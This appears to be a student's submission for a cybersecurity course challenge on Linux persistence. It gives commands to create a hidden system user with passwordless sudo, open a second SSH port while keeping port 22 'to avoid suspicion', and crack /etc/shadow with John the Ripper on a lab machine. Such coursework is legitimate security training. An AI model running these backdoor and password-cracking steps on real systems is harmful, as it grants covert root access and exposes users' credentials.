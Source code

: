     Cybersecurity
Module 6 Challenge Submission File


Advanced Bash: Owning the System

Make a copy of this document to work in, and then for each step, add the solution commands below the prompt. Save and submit this completed file as your Challenge deliverable.


Step 1: Shadow People

 Create a secret user named sysd. Make sure this user doesn't have a home folder created.

useradd -M sysd (the -M forces no home folder, even if configs try to make every new user have a home folder)


 Give your secret user a password. 

passwd sysd

This could also be accomplished in the useradd command with the -p [password] option/argument


 Give your secret user a system UID < 1000.

usermod -u (or --uid) [desired UID, in my case 99] sysd

Could also be added during useradd with -u [uid]


 Give your secret user the same GID.

groupmod -g 99 sysd

Could also be added during useradd with -g [gid] - though reading the man page, this might be something that can be prevented in system configuration files? 


 Give your secret user full sudo access without the need for a password.

visudo (enters sudoers editor)
Inside visudo:
sysd ALL=(ALL:ALL) NOPASSWD:ALL
(above could be read as “allow sysd to run any command as any user, and they don’t need a password for running any command”)


 Test that sudo access works without your password.

su sysd
sudo -l
sudo useradd test
sudo deluser test
sudo su



Step 2: Smooth Sailing

 Edit the sshd_config file.

sudo su (switching to root to avoid having to continually sudo)
sudo vim /etc/ssh/sshd_config (manually editing config file in vim, which i prefer over nano)

Inside VIM add:
Port 2222 (tells the ssh to listen for ssh connections on port 22)

If there’s no Port 22 already uncommented in the file, add:
Port 22 (ensures port 22 works normally, to avoid suspicion)



Step 3: Testing Your Configuration Update

 Restart the SSH service.

systemctl restart sshd

Verifying the service restarts:

systemctl status sshd

If the editing is done correctly, the status will show a set of lines that look similar to this:

DATE XX:XX:XX computer-name systemd[1]: Starting OpenBSD Secure Shell Server
DATE XX:XX:XX computer-name sshd[9962]: Server listening on 0.0.0.0 port 22.
DATE XX:XX:XX computer-name sshd[9962]: Server listening on :: port 22.
DATE XX:XX:XX computer-name sshd[9962]: Server listening on 0.0.0.0 port 2222.
DATE XX:XX:XX computer-name sshd[9962]: Server listening on :: port 2222.
DATE XX:XX:XX computer-name sshd[9962]: Started OpenBSP Secure Shell Server


 Exit the root account.

exit (repeat continually until logged out)


 SSH to the target machine using your sysd account and port 2222.

ssh sysd@192.168.6.105 -p 2222


 Use sudo to switch to the root user.

sudo su



Step 4: Crack All the Passwords

 SSH back to the system using your sysd account and port 2222.

ssh sysd@192.168.6.105 -p 2222


 Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file.

sudo su
john /etc/shadow 
(don’t need to give it a wordlist, but can use one if needed with --wordlist:/path/to/wordlist option/arg)

If you want to see all the passwords you’ve cracked with john:
john --show /path/to/hased/passwords.txt 

In this case, it would be:
john --show /etc/shadow
